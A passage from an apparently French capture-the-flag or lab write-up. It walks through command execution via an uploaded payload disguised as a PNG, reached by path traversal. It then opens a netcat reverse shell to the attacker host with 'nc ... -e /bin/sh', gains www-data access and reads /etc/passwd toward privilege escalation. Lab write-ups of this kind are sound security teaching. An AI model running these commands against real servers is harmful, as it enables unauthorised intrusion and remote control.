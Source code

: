 Notre commande est exécutée avec succès. 

Cherchons à savoir si `[netcat](https://fr.wikipedia.org/wiki/Netcat)` est installé afin d'obtenir un reverse shell : 


```bash
wget "http://172.30.0.2/blog.php?article=..//uploads/blog_payload.html.png&0=shell_exec"  --post-data "1=which nc"
```

```
�PNG

   
IHDR           ��   	pHYs  �  ��+   `IDATH�c\/bin/nc
X����s^7�����~_�}�'���ɿ_�|�00cٹg��=�2��Q0
F�(�`��Q0
�
  ��x
    IEND�B`�<center><a href="https://github.com/Michael-SharkyMaster/website">This website is also host on Github</a></center>
```

Il l'est, nous pouvons donc lancer localement netcat en écoute : 

```bash
nc -lvp 1337
```

Puis demander au serveur cible d'utiliser netcat pour se connecter sur le port que nous venons de mettre en écoute : 

```bash
wget "http://172.30.0.2/blog.php?article=..//uploads/blog_payload.html.png&0=shell_exec"  --post-data "1=nc 172.30.0.14 1337 -e /bin/sh"
``` 
 
 
On récupère bien notre reverse shell : 

```bash
nc -lvp 1337                                         
listening on [any] 1337 ...
172.30.0.2: inverse host lookup failed: Unknown host
connect to [172.30.0.14] from (UNKNOWN) [172.30.0.2] 60184

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Élévation de privilèges (user)
 
Nous sommes donc connectés avec l'utilisateur www-data et nous allons donc devoir chercher un utilisateur sur lequel pivoter :
 
```bash
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
```